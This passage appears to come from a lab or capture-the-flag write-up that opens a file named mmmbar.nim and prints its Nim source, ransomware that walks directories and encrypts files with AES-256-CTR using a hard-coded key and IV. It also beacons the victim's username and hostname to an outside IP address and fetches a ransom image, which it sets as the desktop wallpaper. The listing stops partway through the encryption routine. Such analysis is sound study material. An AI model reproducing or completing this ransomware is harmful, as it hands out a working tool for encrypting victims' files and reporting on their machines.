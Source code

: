 Navigate to the path to check what is inside of the malware file:
```bash
cd REDACTED
```

Let's view the malware file now:
```bash
cat mmmbar.nim
```

```nim
import os
import strformat
import httpclient
import nimcrypto
import base64
import json
import winim

# Added function to check for the debug mode in the config file
func isDebugEnabled(): bool =
  let configFile = getCurrentDir() & DirSep & "config.json" # Assuming JSON format for simplicity
  if fileExists(configFile):
    let configContent = readFile(configFile)
    let configJson = parseJson(configContent)
    if "debug" in configJson:
      return configJson["debug"].getBool()
  return false

func toByteSeq*(str: string): seq[byte] {.inline.} =
    @(str.toOpenArrayByte(0, str.high))

proc change_wp(isDebug: bool): void =
  if not isDebug:
    var client = newHttpClient()
    var user = getEnv("USERNAME")
    var hostname = getEnv("COMPUTERNAME")
    var report_url = fmt"http://172.16.251.121/aaaaa_ransom.jpg?user={user}&hostname={hostname}"
    var req = client.getContent(report_url)

    var dump = getTempDir() & "paymeboogey.jpg"
    writeFile(dump, req)

    SystemParametersInfoA(SPI_SETDESKWALLPAPER, 0, cast[PVOID](dump.cstring), SPIF_UPDATEINIFILE or SPIF_SENDCHANGE)

proc recursive(path: string, isDebug: bool): void =
  for file in walkDirRec path:
    let fileSplit = splitFile(file)
    let password: string = "myKey"
    if fileSplit.ext != ".boogey" and fileSplit.ext != ".ini":
      echo fmt"[*] Encrypting: {file}"
      var
          inFileContents: string = readFile(file)
          plaintext: seq[byte] = toByteSeq(inFileContents)
          ectx: CTR[aes256]
          key: array[aes256.sizeKey, byte]
          iv: array[aes256.sizeBlock, byte]
          encrypted: seq[byte] = newSeq[byte](len(plaintext))

      iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 34, 12]
      var expandedKey = sha256.digest(password)
      copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))

      ectx.init(key, iv)
```